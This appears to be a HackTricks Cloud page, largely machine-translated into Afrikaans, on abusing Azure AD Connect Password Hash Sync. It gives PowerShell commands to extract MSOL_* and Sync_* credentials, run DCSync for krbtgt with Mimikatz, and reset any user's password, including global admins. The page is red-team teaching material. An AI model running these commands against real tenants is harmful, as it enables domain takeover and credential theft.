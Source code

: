 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Waghash-sinkronisasie** is one of the sign-in methods used to accomplish hybrid identity. **Azure AD Connect** sinkroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instansie na 'n wolk-gebaseerde Azure AD-instansie.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **meest algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hash van die wagwoord hashes** word van die plaaslike na Azure AD gesinkroniseer. egter, **duidelike teks wagwoorde** of die **oorspronklike** **hashes** word nie na Azure AD gestuur nie.\
Boonop, **Ingeboude** sekuriteitsgroepe (soos domein admins...) word **nie gesinkroniseer** na Azure AD nie.

Die **hashes sinkronisasie** vind elke **2 minute** plaas. egter, standaard, **wagwoord vervaldatum** en **rekening** **verval** word **nie gesinkroniseer** in Azure AD nie. So, 'n gebruiker wie se **plaaslike wagwoord verval** (nie verander nie) kan voortgaan om **toegang tot Azure hulpbronne** te verkry met die ou wagwoord.

Wanneer 'n plaaslike gebruiker 'n Azure hulpbron wil benader, vind die **verifikasie plaas op Azure AD**.

**PHS** is vereis vir funksies soos **Identiteitsbeskerming** en AAD Domeindienste.

## Pivoting

Wanneer PHS geconfigureer is, word sommige **bevoorregte rekeninge** outomaties **gecreëer**:

* Die rekening **`MSOL_<installationID>`** word outomaties in plaaslike AD geskep. Hierdie rekening ontvang 'n **Directory Synchronization Accounts** rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replicatie (DCSync) toestemmings in die plaaslike AD** het.
* 'n rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan **die wagwoord van ENIGE gebruiker** (gesinkroniseer of slegs wolk) in Azure AD **herstel**.

Wagwoorde van die twee vorige bevoorregte rekeninge word **in 'n SQL-server gestoor** op die bediener waar **Azure AD Connect geïnstalleer is.** Administrateurs kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie van een van die tabelle te onttrek, wat een versleuteld is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleuteld met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`** gebruiker in plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, om hierdie te kompromitteer, is dit moontlik om privesc na die AD en AzureAD te verkry.

Jy kan 'n [volledige oorsig van hoe hierdie geloofsbriewe gestoor en ontsleutel word in hierdie praatjie vind](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

As die **bediener waar Azure AD connect geïnstalleer is** domein-verbonden is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie akrediteer te verkry.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`** rekening te kompromitteer, is dit moontlik om die **wagwoord** van enige gebruiker (insluitend Globale Administrators) te **herstel**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om **slegs die wagwoorde van wolk** gebruikers te **wysig** (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
'n Ander opsie sou wees om **bevoorregte toestemmings aan 'n dienshoof** toe te ken, wat die **Sync** gebruiker **toestemmings** het om te doen, en dan **daardie dienshoof** te benader as 'n manier van privesc.
{% endhint %}

### Naadlose SSO

Dit is moontlik om Naadlose SSO met PHS te gebruik, wat kwesbaar is vir ander misbruik. Kontroleer dit in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
